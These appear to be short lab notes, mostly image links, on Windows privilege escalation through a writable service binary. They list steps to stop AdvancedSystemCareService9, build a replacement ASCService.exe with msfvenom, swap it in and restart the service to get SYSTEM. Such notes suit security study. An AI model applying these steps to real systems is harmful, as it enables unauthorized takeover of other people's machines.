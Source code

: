 ![image](https://github.com/user-attachments/assets/1f3d6c05-ca11-4415-be32-3a1e95cdf5fb)
![image](https://github.com/user-attachments/assets/05fbd16e-a0c9-4589-8837-712508f02a6e)
![image](https://github.com/user-attachments/assets/b8e859ce-ce02-489a-a567-4ac2b585bed8)
![image](https://github.com/user-attachments/assets/ed4da553-cb7b-48ae-a1ef-43d50769f600)
![image](https://github.com/user-attachments/assets/65a7f909-2a65-4f2f-a0a1-f2370b189f48)
![image](https://github.com/user-attachments/assets/7f42902c-f931-4b28-894f-f4e5289d2497)
![image](https://github.com/user-attachments/assets/ede0bea3-f4ec-48db-84d4-1212bfc57d60)
![image](https://github.com/user-attachments/assets/df30ba52-5326-4781-9adc-e97e1ce9761c)
![image](https://github.com/user-attachments/assets/9c64fa34-4327-4053-ab06-a8e1d477190f)
![image](https://github.com/user-attachments/assets/44db26ca-ace2-49fd-86e2-0ea4189ad542)
![image](https://github.com/user-attachments/assets/c654f5d6-c79f-4908-ab09-f254b8f84b09)
![image](https://github.com/user-attachments/assets/59087828-022b-4739-bfa8-f96f496984d6)

AdvancedSystemCareService9 --> CanRestart =True --> app ASCService.exe write-able

![image](https://github.com/user-attachments/assets/e3fbaf49-2cbe-4e08-84c7-99faf50f35be)
![image](https://github.com/user-attachments/assets/917edfc3-ba1a-473c-82b1-b8272cc6fe94)
![image](https://github.com/user-attachments/assets/ceecf8ff-2050-463d-a8b5-7cbd7e989729)
![image](https://github.com/user-attachments/assets/6cb1f67f-03f7-439d-ac5e-6c2b9eaad4d5)

1. Check service status --> Get-Service -Name "AdvancedSystemCareService9"

2. Stop service --> Stop-Service AdvancedSystemCareService9

3. Generate payload  --> msfvenom -f exe-service -o ASCService.exe

4. Replace original service exe with payload

5. Restart service --> Restart-Service -Name "AdvancedSystemCareService9"

6. PrivEsc to SYSTEM

7. If run winPEAS.exe, should see unquoted path for the service

